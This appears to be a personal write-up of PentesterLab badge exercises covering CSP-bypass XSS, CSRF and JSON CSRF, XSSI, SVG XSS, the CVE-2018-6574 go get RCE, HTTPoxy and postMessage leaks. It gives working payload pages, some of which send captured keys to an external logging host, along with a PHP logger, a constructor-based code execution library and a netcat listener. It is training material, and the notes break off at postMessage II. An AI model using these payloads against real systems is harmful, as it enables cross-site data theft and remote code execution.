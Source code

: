 ## Orange Badge

### Intro to CSP 

- https://hackerone.com/reports/153666
- `<script>alert('2fdb31a2-ca58-4650-abfb-9406be061d69')</script>` doesn't work due to CSP
- `Content-Security-Policy: default-src 'self'; script-src 'self' https://pentesterlab.com`
- But there is an XSS in `js/countdown.php?end=2534926825*1000).getTime();alert(1);//`
- So we can use `/?name=<script src="js/countdown.php?end=2534926825*1000).getTime();alert(1);//"></script>`

### CSRF

- Create users and see if any sensitive actions can be performed without tokens.
- Create a malicious page and upload it to your vps `http://18.191.42.249/csrf.html`

```
<!DOCTYPE html>
<html>
<body>
    <form method="post" action="http://ptl-55544eb5-9632baab.libcurl.so/share">
        <input name="user" value="asdf">
        <input name="id" value="0">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

```
Name	Value
PTLAB_KEY	57bea68a-1090-4329-8b94-37d4d3bb453a
```

### JSON CSRF

- The JSON request body looks like this `{"user":"asdf","id":0}`
- When we send stuff through forms they appear as `k1=v1&k2=v2`
- To fix this put everything in name.
- But everything still gets URL encoded, use `enctype="text/plain"`
- Be aware of quotes used. I tried using `'` which gave me an error, while `"` worked.

```
<html>

<body onload="document.forms[0].submit();">
<form enctype="text/plain"
      method="POST"
      action="http://ptl-2d63cb87-4d590bd7.libcurl.so/share">
<input name='{"user":"asdf","id":0,"trash":"' value='"}'>
</form>

</body>
</html>
```

```
Name	Value
PTLAB_KEY	d800b2b5-8625-4c05-a11a-9719c007b554
```

### XSSI
- This exercise covers the exploitation of a Cross-Site Scripting Include (XSSI) vulnerability.
- This type of vulnerability is common with modern applications and applications relying massively on JSON with Padding (JSONP).
- For difference between XSSI, CSRF and XSS look into https://www.scip.ch/en/?labs.20160414

xssi.html
```
<!DOCTYPE html>
<html>
<body>

<script>
function display(data) {
	var str = '';
	for (var key in data) {
		str += '<img src="http://18.191.42.249/log.php?c='+key+':'+data[key] + '">';
	}
	document.write(str);
}
</script>

<script src="http://ptl-a878d4de-fa8ca92a.libcurl.so/secrets.js"></script>
</body>
</html>
```

log.php
```
<?php

$myfile = fopen('logs.txt', 'a') or die('Unable to open file!');
$txt = $_GET['c'];
$myfile = file_put_contents('logs.txt', $txt.PHP_EOL , FILE_APPEND | LOCK_EX);
```

```
$ >logs.txt
$ cat logs.txt 
PTLAB_KEY:7d570b4a-4a01-4430-88db-2f7907382269
```

### SVG XSS

Upload HTML file and change extension through proxy

```
<html>
    <script>
        alert('2fdb31a2-ca58-4650-abfb-9406be061d69')
    </script>
</html>
```

### CVE-2018-6574: go get RCE

- This vulnerability was fixed in Go 1.8.7, 1.9.4 and 1.10rc2.
- When installing a package, Golang will build native extensions.

attack.c
```
#include<stdio.h>
#include<stdlib.h>

static void malicious() __attribute__((constructor));

void malicious() {
    system("touch /tmp/owned");
}
```

```
$ gcc -shared -o attack.so -fPIC attack.c
```

```
package main
// #cgo CFLAGS: -fplugin=./attack.so
// typedef int (\*intFunc) ();
//
// int
// bridge_int_func(intFunc f)
// {
//      return f();
// }
//
// int fortytwo()
// {
//      return 42;
// }
import "C"
import "fmt"

func main() {
    f := C.intFunc(C.fortytwo)
    fmt.Println(int(C.bridge_int_func(f)))
    // Output: 42
}
```

Put all three files in a GitHub repository and `go get github.com/abhaynayar/cve-2018-6574`

### CVE-2016-5386: HTTPoxy

- https://httpoxy.org/
- The web server adds the prefix HTTP_ and capitalise the string.
- For example, the Host: header becomes the variable HTTP_HOST.
- An environment variable of such format exists: HTTP_PROXY.

Solution

- Request being made to `http://ptl-9c6cf080-93a0aa2b.libcurl.so/cgi-bin/hello.cgi`
- Add header `Proxy: 18.191.42.249:1337`
- On your vps `$ nc -lvp 1337`
- We get the key as `User-Agent: 4b25aabc-4dce-43d4-9f86-49327d4548c0`

### postMessage() I

- "The window.postMessage() method safely enables cross-origin communication between Window objects; e.g., between a page and a pop-up that it spawned, or between a page and an iframe embedded within it."
- However, if the application relies on cookies and the opened page sends back sensitive information to the opening page without enforcing a targetOrigin, it's possible for a malicious page to get access to this sensitive information by getting users to visit a malicious page.
- To prevent this issue, the backend should avoid using * as the second argument of postMessage (targetOrigin).

pm1.html
```
<!DOCTYPE html>
<html>
    <body>
        <button onclick='window.open("http://ptl-12065b08-fa3f5dba.libcurl.so/key/0","ptlabdata0","height=200,width=150")'>Decrypt</button>
        <img id="asdf"></img>
        <script>
            window.addEventListener("message", function(event){
                document.getElementById("asdf").src = "http://18.191.42.249/log.php?c=" + event.data.value;
            }, false);
        </script>
    </body>
</html>
```

Success
```
http://18.191.42.249/pm1.html
15492096-e7fc-4675-b36d-d9d4f99a304e
```


### postMessage() II

- When you hit share `window.open("/key/0","ptlabdata0","height=200,width=150")`








